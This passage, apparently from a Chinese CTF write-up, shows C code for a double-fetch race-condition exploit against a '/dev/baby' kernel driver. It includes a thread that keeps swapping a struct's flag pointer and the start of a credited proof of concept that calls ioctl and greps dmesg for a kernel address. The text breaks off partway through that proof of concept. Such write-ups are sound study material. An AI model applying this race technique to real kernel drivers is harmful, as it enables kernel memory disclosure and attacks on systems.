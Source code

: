 栗子：

```c
#include <pthread.h>

void change_flag_addr(void *a){
    struct v5 *s = a;
    while(finish == 1){
        s->flag = flag_addr;
    }
}

int main()
{
	struct v5 t;
	pthread_t t1;
	pthread_create(&t1,NULL,change_flag_addr,&t); 
}

```



---

贴一下钞sir师傅的poc：

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <pthread.h>

unsigned long long flag_addr;
int Time = 1000;
int finish = 1;

struct v5{
    char *flag;
    size_t len;
};

//change the user_flag_addr to the kernel_flag_addr
void change_flag_addr(void *a){
    struct v5 *s = a;
    while(finish == 1){
        s->flag = flag_addr;
    }
}

int main()
{
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    pthread_t t1;
    char buf[201]={0};
    char m[] = "flag{AAAA_BBBB_CC_DDDD_EEEE_FFFF}";     //user_flag
    char *addr;
    int file_addr,fd,ret,id,i;
    struct v5 t;
    t.flag = m;
    t.len = 33;
    fd = open("/dev/baby",0);
    ret = ioctl(fd,0x6666);
    system("dmesg | grep flag > /tmp/sir.txt");     //get kernel_flag_addr
    file_addr = open("/tmp/sir.txt",O_RDONLY);
```